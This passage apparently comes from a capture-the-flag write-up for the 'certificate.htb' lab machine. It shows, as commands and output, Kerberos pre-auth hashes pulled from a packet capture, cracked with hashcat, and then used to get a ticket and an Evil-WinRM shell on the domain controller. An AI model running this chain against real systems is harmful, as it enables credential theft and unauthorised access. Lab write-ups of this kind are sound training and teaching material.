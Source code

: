 Now we can crack the hashes
```bash
┌──(kali@kali)-[~/certificate.htb/Krb5RoastParser]
└─$ python3 krb5_roast_parser.py ../capture.pcap as_req > crack.txt

┌──(kali@kali)-[~/certificate.htb]
└─$ hashcat -m 19900 crack.txt /usr/share/wordlists/rockyou.txt
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$krb5pa$18$Lion.SK$CERTIFICATE.HTB$23f5159fa1c66ed7b0e561543eba6c010cd31f7e4a4377c2925cf306b98ed1e4f3951a50bc083c9bc0f16f0f586181c9d4ceda3fb5e852f0:<PASSWORD_REDACTED>
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 19900 (Kerberos 5, etype 18, Pre-Auth)
Hash.Target......: $krb5pa$18$Lion.SK$CERTIFICATE.HTB$23f5159fa1c66ed7...e852f0
Time.Started.....: Tue Aug 26 01:55:52 2025 (3 secs)
Time.Estimated...: Tue Aug 26 01:55:55 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     5395 H/s (13.19ms) @ Accel:128 Loops:512 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 14080/14344385 (0.10%)
Rejected.........: 0/14080 (0.00%)
Restore.Point....: 13440/14344385 (0.09%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:3584-4095
Candidate.Engine.: Device Generator
Candidates.#1....: vonnie -> doghouse
Hardware.Mon.#1..: Util: 71%
```

Let's authenticate with `kerberos`
```bash
┌──(kali@kali)-[~/certificate.htb]
└─$ sync-ad getTGT.py -dc-ip 10.10.11.71 'certificate.htb/lion.sk:<PASSWORD_REDACTED>'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Saving ticket in lion.sk.ccache

┌──(kali@kali)-[~/certificate.htb]
└─$ export KRB5CCNAME=$(pwd)/lion.sk.ccache     
```

Now we can login and grab the `user.txt` flag
```bash
┌──(kali@kali)-[~/certificate.htb]
└─$ sync-ad evil-winrm -i dc01.certificate.htb -r certificate.htb

Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Lion.SK\Documents> whoami
certificate\lion.sk
*Evil-WinRM* PS C:\Users\Lion.SK\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
```